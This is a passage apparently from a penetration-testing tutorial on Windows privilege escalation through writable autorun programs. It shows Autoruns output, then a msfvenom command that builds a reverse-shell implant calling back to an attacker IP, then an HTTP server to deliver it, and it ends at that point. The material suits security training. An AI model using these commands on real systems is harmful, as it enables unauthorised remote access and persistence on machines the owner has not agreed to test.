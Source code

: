 The command line version of autoruns is `autorunsc.exe` (can be executed as medium-integrity level / low privileged user):

```powershell
PS C:\Program Files\Autorun Program> C:\Tools\SysinternalsSuite\autorunsc64.exe -accepteula -a l

Sysinternals Autoruns v14.09 - Autostart program viewer
Copyright (C) 2002-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


<...SNIP...>

HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   SecurityHealth
     %windir%\system32\SecurityHealthSystray.exe
     Windows Security notification icon
     Microsoft Corporation
     10.0.22000.65
     c:\windows\system32\securityhealthsystray.exe
     12/2/1926 7:27 PM
   VMware User Process
     "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
     VMware Tools Core Service
     VMware, Inc.
     11.3.5.31214
     c:\program files\vmware\vmware tools\vmtoolsd.exe
     8/31/2021 5:27 AM
   My Program
     "C:\Program Files\Autorun Program\program.exe"
     c:\program files\autorun program\program.exe


<...SNIP...>
```

Since we have write permissions to `C:\Program Files\Autorun Program\program.exe` we can replace it with a payload or an implant. In this case, I will generate an executable reverse shell:

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.130 LPORT=443 -f exe -o implant.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: implant.exe
```

Then I will setup an HTTP listener on my attacker machine:

```bash
❯ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
